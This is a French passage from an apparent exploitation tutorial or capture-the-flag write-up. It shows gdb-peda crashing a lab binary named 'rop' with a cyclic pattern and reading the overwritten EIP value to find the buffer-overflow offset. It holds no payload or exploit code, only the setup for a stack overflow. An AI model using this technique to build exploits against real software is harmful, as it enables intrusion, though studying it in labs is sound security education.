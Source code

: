 Pour cela nous pouvous trouver une [unique string avec ce lien](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) et lancer notre executable `rop` dans un debugger. 
Nous avons `gdb` sur notre machine utilisons le:

```raw
root@5859be6f9e32:~# gdb rop
gdb-peda$ run
Starting program: /root/rop 
warning: Error disabling address space randomization: Operation not permitted
Input: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x33644132 ('2Ad3')
ECX: 0x1 
EDX: 0xf7f6c89c --> 0x0 
ESI: 0xf7f6b000 --> 0x1d9d6c 
EDI: 0xf7f6b000 --> 0x1d9d6c 
EBP: 0x41346441 ('Ad4A')
ESP: 0xffee2dd0 ("6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9")
EIP: 0x64413564 ('d5Ad')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x64413564
[------------------------------------stack-------------------------------------]
0000| 0xffee2dd0 ("6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9")
0004| 0xffee2dd4 ("Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9")
0008| 0xffee2dd8 ("d9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9")
0012| 0xffee2ddc ("0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9")
0016| 0xffee2de0 ("Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9")
0020| 0xffee2de4 ("e3Ae4Ae5Ae6Ae7Ae8Ae9")
0024| 0xffee2de8 ("4Ae5Ae6Ae7Ae8Ae9")
0028| 0xffee2dec ("Ae6Ae7Ae8Ae9")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x64413564 in ?? ()
```
```
EIP: 0x64413564 ('d5Ad')
```

La ligne qui nous intéresse est `EIP: 0x64413564 ('d5Ad')`. Sur le site où nous avons créé notre unique string nous pouvons calculer l'offset et trouver à partir de quel moment nous prenons contrôle du registre EIP.

![offset](./offset.png)
